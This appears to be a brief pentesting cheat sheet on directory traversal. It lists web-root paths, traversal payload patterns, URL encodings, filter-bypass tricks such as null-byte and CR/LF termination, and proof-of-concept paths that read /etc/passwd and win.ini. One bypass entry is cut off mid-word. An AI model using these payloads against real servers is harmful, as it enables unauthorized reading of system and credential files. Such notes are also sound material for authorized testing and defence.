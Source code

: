 # Directory Traversal
## Common Directories
- Apache 
	- `/var/www`
	- `/var/www/images`
	- `/var/www/static`
- IIS
	- `C:\inetpub\wwwroot`

## Quick Checks
- `./<PATH>`
- `/etc/passwd` `/windows/win.ini`
- `.\/<PATH>`
- `.//<PATH>`
- `.\\<PATH>`
- `....//<PATH>`
- `....\/<PATH>`
### Encodings
**Worth trying to double-encode as well**
#### URL Encoding
**Note you can either encode the entire URL code, or just the letters**
- `.` -> `%2e`
- `/` ->`%2f`
- `\` -> `%5c`
#### HTML Encoding
**Useful for DOM reflections**
- `a` -> `\u0061`
### Bypass
**Useful for bypassing regex enforcing extensions**
- Leading zeros - `%[0]*<URL ENCODING>`
- Null byte termination - `%00`
- Line feed termination - `\n` `%0a`
- Carriage return termination - `\r` `%0d`
- Carriage return Line feed termination - `\r\n` `%0d0a`
- Space termination - ` ` `%20` `+`
- Comment t

## System Info / POC
- Unix
	- `../[../]*/etc/passwd`
- Windows
	- `..\[..\]*\windows\win.ini`
